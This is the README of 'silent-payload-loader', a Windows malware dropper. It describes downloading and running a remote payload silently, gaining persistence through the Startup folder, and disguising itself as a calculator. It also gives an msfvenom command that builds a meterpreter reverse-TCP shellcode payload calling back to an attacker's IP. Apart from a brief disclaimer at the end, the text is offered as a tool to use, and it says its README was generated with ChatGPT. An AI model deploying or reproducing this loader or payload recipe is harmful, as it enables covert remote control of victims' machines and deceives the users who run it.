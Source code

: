 # silent-payload-loader

**silent-payload-loader** is a lightweight Windows tool designed to download and execute a payload from a remote server while ensuring persistence by copying itself to the Windows Startup folder. The tool runs silently in the background, allowing users to integrate their own applications instead of the default calculator interface that is displayed in the foreground.

**Note**: You need to change the defined PAYLOAD in line 15 to your server hosting the payload.bin

## Features:
- Downloads and executes a remote payload.
- Ensures persistence by copying itself to the Windows Startup folder.
- Hides its malicious actions by running a fake calculator.
- Executes payloads silently in the background.

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.

**Note**: README.md and Description were generated using ChatGPT
